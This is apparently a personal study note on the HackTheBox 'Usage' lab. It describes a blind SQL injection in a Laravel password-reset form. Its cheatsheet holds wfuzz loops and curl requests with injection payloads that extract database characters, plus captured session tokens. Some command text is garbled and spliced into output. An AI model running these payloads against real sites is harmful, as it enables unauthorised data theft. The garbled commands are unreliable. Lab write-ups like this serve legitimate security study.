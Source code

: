 # Usage \[Easy]

## Report

A PHP Laravel site is prone to blind SQLi in the 'Forgot Password' page at the 'email' parameter.  The admin/user creds are exposed which we did not achieve due to inability to follow redirects via curl and hence decided ffuf also would not either.

Intruder did but it was too slow to make any noticable progress

{% embed url="https://0xdf.gitlab.io/2024/10/19/htb-editorial.html" %}

## Cheatsheet

```
laravel php
admin.usage.htb vhost
token field whenever login is being performed
fuzzing forget-password
[Status: 301, Size: 178, Words: 6, Lines: 8

for i in $(seq 1 10); do wfuzz -c -z range,32-127 --hw=<word count> "http://meh.com/index.php?id=1' and (ascii(substr(database(),$i,1)))=FUZZ --+";done 

for i in $(seq 1 10); wfuzz -c -z range,32-127  -b "XSRF-TOKEN=eyJpdiI6ImJDMDhuWEdORUhxYVo3ZE9tSHhUM3c9PSIsInZhbHVlIjoiMHVxc3FqLzcvcFBQcExFWXhRN0Z4YTE4aHp1VnJnTEtXOTZWWGZYbjBWRUJBWUc0VjhJSHh6RThYNWZDYUtPY0RVYXJRVlpBU09SV1laY0M0eWtPMUZBdFJ1Qk1DZDRheFUySUtHVC9BOXNNbmlCWTVZNGZLVzhIZ1pBbXpoYmMiLCJtYWMiOiJjYTIyY2I2OTM4YTI2MTNkODlhZmJkOWIxMzljMjA2ZmFkMmUyNGMwMGQ5MThjYWU0M2FiMGY4MWI0ZjEyNmVjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjE3cGI3bjR5Y3psMkUvUWJ0TGw5V2c9PSIsInZhbHVlIjoiZi9xY3NuR3ErVXVWMzlFcXROVGZxQkNTRERJMHB0bGNZZ0UxcVFZZGIycktmWFRaZWIrNmJKcy9RZEhqOEtpVmFFb1piWXB4MVMrS01nN2swR2ZDK3pZQjdMR1VEY0p5a3c1SW9rOXJFcTdzbDdNTm54RnoyOGM0U1kyZ2xHaWkiLCJtYWMiOiIyZTQxNmYyZTc3OWU3NjlhMzE1ZjgyOGJkZDg3M2FiYzFkOWM1ODljNTQxODhhZTNhZTk0MzRhMDU0OTg4MDcwIiwidGFnIjoiIn0%3D" -u http://10.10.11.18/forget-password:80 -X POST -d "_token=C9PYLY5AYByiQPK35kxcSJb4rYu9VLJulIGOe1RH&email=x OR (ascii(substr(database(),$i,1)))=FUZZ-- -'" --hw=12



Once we broke the sql identify the or code that actlly makes it work properly

curl --insecure -b "XSRF-TOKEN=eyJpdiI6ImJDMDhuWEdORUhxYVo3ZE9tSHhUM3c9PSIsInZhbHVlIjoiMHVxc3FqLzcvcFBQcExFWXhRN0Z4YTE4aHp1VnJnTEtXOTZWWGZYbjBWRUJBWUc0VjhJSHh6RThYNWZDYUtPY0RVYXJRVlpBU09SV1laY0M0eWtPMUZBdFJ1Qk1DZDRheFUySUtHVC9BOXNNbmlCWTVZNGZLVzhIZ1pBbXpoYmMiLCJtYWMiOiJjYTIyY2I2OTM4YTI2MTNkODlhZmJkOWIxMzljMjA2ZmFkMmUyNGMwMGQ5MThjYWU0M2FiMGY4MWI0ZjEyNmVjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjE3cGI3bjR5Y3psMkUvUWJ0TGw5V2c9PSIsInZhbHVlIjoiZi9xY3NuR3ErVXVWMzlFcXROVGZxQkNTRERJMHB0bGNZZ0UxcVFZZGIycktmWFRaZWIrNmJKcy9RZEhqOEtpVmFFb1piWXB4MVMrS01nN2swR2ZDK3pZQjdMR1VEY0p5a3c1SW9rOXJFcTdzbDdNTm54RnoyOGM0U1kyZ2xHaWkiLCJtYWMiOiIyZTQxNmYyZTc3OWU3NjlhMzE1ZjgyOGJkZDg3M2FiYzFkOWM1ODljNTQxODhhZTNhZTk0MzRhMDU0OTg4MDcwIiwidGFnIjoiIn0%3D" -X POST --data "_token=C9PYLY5AYByiQPK35kxcSJb4rYu9VLJulIGOe1RH&email=j@gmail.com' or 1=1;-- -';" http://usage.htb/forget-password

IF email does not exist
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta http-equiv="refresh" content="0;url='http://usage.htb/forget-password'" />itle>Redirecting to http://usage.htb/forget-password</title>6l.com' or (select count(*) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='usage_blog')=15;-- -';TOKEN=eyJpdiI6ImJDMDhuWEdORUhxYVo3ZE9tSHhUM3c9PSIsInZhbHVlIjoiMHVxc3FqLzcvcFBQcExFWXhRN0Z4YTE4aHp1VnJnTEtXOTZWWGZYbjBWRUJBWUc0VjhJSHh6RThYNWZDYUtPY0RVYXJRVlpBU09SV1laY0M0eWtPMUZBdFJ1Qk1DZDRheFUySUtHVC9BOXNNbmlCWTVZNGZLVzhIZ1pBbXpoYmMiLCJtYWMiOiJjYTIyY2I2OTM4YTI2MTNkODlhZmJkOWIxMzljMjA2ZmFkMmUyNGMwMGQ5MThjYWU0M2FiMGY4MWI0ZjEyNmVjIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IjE3cGI3bjR5Y3psMkUvUWJ0TGw5V2c9PSIsInZhbHVlIjoiZi9xY3NuR3ErVXVWMzlFcXROVGZxQkNTRERJMHB0bGNZZ0UxcVFZZGIycktmWFRaZWIrNmJKcy9RZEhqOEtpVmFFb1piWXB4MVMrS01nN2swR2ZDK3pZQjdMR1VEY0p5a3c1SW9rOXJFcTdzbDdNTm54RnoyOGM0U1kyZ2xHaWkiLCJtYWMiOiIyZTQxNmYyZTc3OWU3NjlhMzE1ZjgyOGJkZDg3M2FiYzFkOWM1ODljNTQxODhhZTNhZTk0MzRhMDU0OTg4MDcwIiwidGFnIjoiIn0%3D" -X POST --data "_token=C9PYLY5AYByiQPK35kxcSJb4rYu9VLJulIGOe1RH&email=j@gmail.com" http://usage.htb/forget-password

```

## Loot

curl sort page xpired - refresh session, token cookies

ffuf does work if curl sorted then peace

Well i couldnt sort the curl bit but burp intruder can follow redirecta however its really slow and if other machines are involved then ofc we can focus on them while this goes on.

Can turbo intruder follow redirects tho?

{% embed url="https://stackoverflow.com/questions/18474690/is-there-a-way-to-follow-redirects-with-command-line-curl" %}

using raw request incase missing headers were the problem

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
